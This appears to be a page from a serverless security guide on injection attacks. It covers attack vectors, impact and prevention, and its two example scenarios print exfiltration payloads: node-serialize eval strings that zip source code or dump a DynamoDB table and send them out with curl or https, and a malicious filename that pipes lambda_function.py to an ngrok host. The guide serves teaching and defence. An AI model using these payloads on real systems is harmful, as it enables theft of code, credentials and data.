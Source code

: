 # A1:2017 Injection

## Attack Vectors
Attack vectors for injections in traditional applications are usually referred to any location where the input to the application can be controlled or manipulated by the attacker. However, in serverless applications the attack surface increases.

Since serverless functions can also be triggered from different events sources like cloud storage events (S3, Blob and other cloud storage), Stream data processing (e.g. AWS Kinesis), databases changes (e.g. DynamoDB, CosmosDB), code modifications (e.g. AWS CodeCommit) notifications (e.g. SMS, Emails, IoT) and more, we should no longer consider input coming directly from the API calls as the sole attack surface. 

Moreover, we no longer have control of the line between the origin to the resource. If a function is triggered via email or a database, there is nowhere to put a Firewall or any other control that will validate the event.

## Security Weakness
The traditional SQL/NoSQL Injection will be the same. OS Command Injection might not target the files in the container (e.g. /etc/host), but source code and other secrets could be found in the container. Code injection will allow an attacker to use the provider’s API to scan and interact with other services in the account.

## Impact
The impact of a successful injection attack will lean on the permission the vulnerable function has. If the function has been assigned a role that grants it liberal access to a cloud storage, then injected code could delete data, upload corrupted data, etc. If the function has been granted access to a database table, it could delete records, insert records, etc. Roles that allow creating users and permissions can eventually lead into a cloud account takeover.

## How to Prevent
- Never trust, pass or make any assumptions regarding input and its validity from any resource
- Use a safe API, which avoids the use of the interpreter entirely or provides a parameterized interface, or migrate to use Object Relational Mapping Tools (ORMs)
- Use positive or “whitelist” input validation when possible
- Identify trusted sources and resources and whitelist them, if possible
- For any residual dynamic queries, escape special characters using the specific escape syntax for that interpreter
- Consider all event types and entry points into the system
- Run functions with the least privileges required to perform the task to reduce attack surface
- Use a commercial runtime defense solution to protect functions on execution time

## Example Attack Scenario I
The following function code, repeatedly found in the wild, deserializes data using the eval() function:
<image>

The untrusted input is sent from the trigger’s event to the unserialize function without any validation. By sending the following payload, attackers can steal the source code of the function, simply by creating a new child_proccess that will zip the source-code found in the current directory, wrapping it up with base64 and sending it to any server they have access to:
>
    _$$ND_FUNC$$_function(){require("child_process").exec("tar -pcvzf /tmp/source.tar.gz ./;
    b=`base64 --wrap=0 /tmp/source.tar.gz`; curl -X POST https://serverless.fail/ --data
    $b",function(){});}()

The attacker can now investigate the code and use it to create a more cloud-native attack. For example, using the provider’s API to read from the database:
>
    _$$ND_FUNC$$_function(){var s=require("aws-sdk");var h=require("https"); var d=new
    s.DynamoDB.DocumentClient;d.scan({TableName:process.env.DYNAMODB_TABLE},function(e,a)
    {if(e);else{var t=Buffer.from(JSON.stringify(a)).toString();;var
    h.get(“https://serverless.fail?encodeURI(t)”),function(e){})}});}()

## Example Attack Scenario II
A function is triggered from a storage file upload. The function then downloads the file and processes it.

<image> 

However, the the function is vulnerable to command injection, in case a downloaded file does not end with the required file extension (i.e. ​ .jpg ​ ).

To exploit that, an attacker uses the application legitimately, but uploads two files. One of them contains a command injection syntax in its name:
>
    chip.gif c.jpg;cd ..; cd var;cd task;f=`head -50 lambda_function.py|base64 --wrap=0`;curl
    protego.ngrok.io?l="$f"
<iamge>

To exploit this vulnerability, the attacker needed to:

- Address an existing file (i.e. chip.gif, which he himself uploaded before)
- Exit the /tmp folder
- Enter the /var/task folder (Use of '/' in the object name is not allowed)
- Read the first 50 lines of lambda_function.py and with it the hardcoded keys to the management AWS account
- Wrap the code in base64
- Send it to a destination held by the attacker

As a result of the Lambda execution, a request is sent to the attacker, containing the function’s code:
<image>
<image>

## Serverless Risk Meter
Injection attacks are always a great risk. One major benefit is that serverless APIs are harder for attackers to scan than traditional HTTP apps, which raises the bar dramatically for automated attacks. However, knowing that 99% of possible malicious inputs are coming from API calls in traditional server applications, allowing us to put all our guard there, makes it at least more predictable. The increase in attack surface, results in a major security concern in serverless applications.
<image>